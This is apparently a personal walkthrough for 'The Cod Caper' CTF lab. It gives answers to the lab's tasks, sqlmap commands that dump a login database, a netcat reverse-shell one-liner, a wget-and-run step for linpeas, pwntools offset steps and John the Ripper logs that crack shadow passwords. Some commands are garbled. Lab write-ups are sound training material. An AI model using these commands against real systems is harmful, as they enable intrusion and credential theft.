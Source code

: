 # Machine NAME : The Cod Caper
# Machine IP : 10.10.110.116

***TASK 1 : Intro***

***TASK 2 : Host Enumeration***
1. How many ports are open on the target machine? : 2 <br>
2. What is the http-title of the web server? : Apache2 Ubuntu Default Page: It works <br>
3. What version is the ssh service? : OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 <br>
4. What is the version of the web server? : Apache/2.4.18 <br>

***TASK 3: Web Enumeration***<br>
1. What is the name of the important file on the server? <br>
: /administrator.php <br>

***TASK 4: Web Exploitation***<br>
1.sqlmap -u {IP} --data "username=&password="  --form <br>
2.sqlmap -u {IP} --data "username=&password=" --data 'username=&password='-a  <br>
 &nbsp;2.1 do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y<br>
 &nbsp;2.2. do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] y<br>
 &nbsp;2.3. what dictionary do you want to use : 1<br>
  &nbsp;&nbsp; [1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)<br>
  &nbsp;&nbsp; [2] custom dictionary file<br>
  &nbsp;&nbsp; [3] file with list of dictionary files<br>
  &nbsp; 2.4. do you want to use common password suffixes? (slow!) [y/N] N<br>
3.sqlmap -u http://{IP}/administrator.php --data 'username=&password=' --dbs<br>
4.sqlmap -u http://10.10.223.60/administrator.php --data "username=&password=" -D users --tables<br>
5.sqlmap -u http://10.10.223.60/administrator.php --data "username=&password=" -D users -T users --dump<br>

1.What is the admin username? : pingudad<br>
2.What is the admin password? : secretpass<br>
3.How many forms of SQLI is the form vulnerable to? 3<br>


***TASK 5: Command Execution***<br>
1.How many files are in the current directory? 3<br>
2.Do I still have an account : yes<br>

3 What is my ssh password? :pinguapingu<br>
&nbsp; 3.1 reverse shell command<br>
       - Listen Command : nc -lvnp 4444<br>
       - reverse shell connect command : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f<br>
       - I thinked for find ssh password<br>
       - 1st See that log file ...if the "/var" directory?<br>
       - ssh password is<br>

***TASK 6: LinEnum***<br>
1. What is the interesting path of the interesting suid file? : /opt/secret/root<br>
- python3 -m http.server 780<br>
- wget http://{IP}/linpeas.sh<br>
- ./linpeas.sh <br>

***TASK 7: pwndbg***<br>
***TASK 8: Binary-Exploitation : Manually***<br>
***TASK 9: Binary-Exploitation : The pwntools way***<br>
1. cyclic 50<br>
2. echo "cyclic 50" | ./root2<br>
3. check the hex value : dmesg<br>
4. python2 ./cylic -l bytes<br>

***Task 10: Finishing the job*** <br>
1.papa crack passwd file using john the ripper<br>
└──╼ #john --wordlist=/usr/share/wordlists/rockyou.txt shadow<br>
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"<br>
Use the "--format=md5crypt-long" option to force loading these as that type instead<br>
Using default input encoding: UTF-8<br>
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])<br>
Press 'q' or Ctrl-C to abort, almost any other key for status<br>
postman          (papa)<br>
1g 0:00:00:00 DONE (2020-05-27 17:22) 1.886g/s 40754p/s 40754c/s 40754C/s spices..playball<br>
Use the "--show" option to display all of the cracked passwords reliably<br>
Session completed<br>

2.root crack passwd file using john the ripper<br>
──╼ #john --wordlist=/usr/share/wordlists/rockyou.txt shadow                                                     <br>
Warning: only loading hashes of type "sha512crypt", but also saw type "md5crypt"<br>
Use the "--format=md5crypt" option to force loading hashes of that type instead<br>
Using default input encoding: UTF-8<br>
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])<br>
Cost 1 (iteration count) is 5000 for all loaded hashes<br>
Press 'q' or Ctrl-C to abort, almost any other key for status<br>
0g 0:00:00:07 0.04% (ETA: 23:00:56) 0g/s 872.7p/s 872.7c/s 872.7C/s horoscope..crazy8<br>
0g 0:00:01:50 0.46% (ETA: 00:09:43) 0g/s 724.4p/s 724.4c/s 724.4C/s alex55..Bulldog<br>
0g 0:00:01:51 0.47% (ETA: 00:09:03) 0g/s 725.6p/s 725.6c/s 725.6C/s vivita..tazzman<br>
love2fish        (root)<br>
1g 0:00:04:57 DONE (2020-05-27 17:39) 0.003366g/s 807.5p/s 807.5c/s 807.5C/s lovelife07..lossims
Use the "--show" option to display all of the cracked passwords reliably<br>
Session completed<br>


